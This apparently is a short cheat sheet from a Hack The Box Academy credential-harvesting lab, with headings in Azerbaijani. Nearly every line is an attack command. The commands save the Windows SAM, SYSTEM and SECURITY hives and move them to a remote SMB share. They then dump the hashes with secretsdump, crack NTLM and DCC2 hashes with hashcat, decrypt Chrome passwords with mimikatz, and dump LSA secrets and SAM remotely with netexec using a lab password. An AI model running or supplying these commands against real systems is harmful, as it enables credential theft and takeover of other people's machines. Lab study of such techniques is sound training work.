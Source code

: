 1) SAM,SYSTEM ve SECURITY fayllarini export etmek ucun

```shell
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save
```

2) Windows'dan Linux'a SMB folderin'e fayl atmaq
```shell
move sam.save \\10.10.15.16\CompData
move security.save \\10.10.15.16\CompData
move system.save \\10.10.15.16\CompData
```

3) SAM, SYSTEM ve SECURITY fayllarini dump etmek ucun
```shell
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
4) hemin tapilan hash'leri crack etmek ucun lazim olan hashcat modulu
```shell
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```
5) DCC2 hashes
```shell
hashcat -m 2100 '$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25' /usr/share/wordlists/rockyou.txt
```
7) DPAPI
```shell
mimikatz.exe
dpapi::chrome /in:"C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data" /unprotect
```
7) Dumping LSA secrets remotely
```shell
netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```
9) Dumping SAM Remotely
```shell
netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```



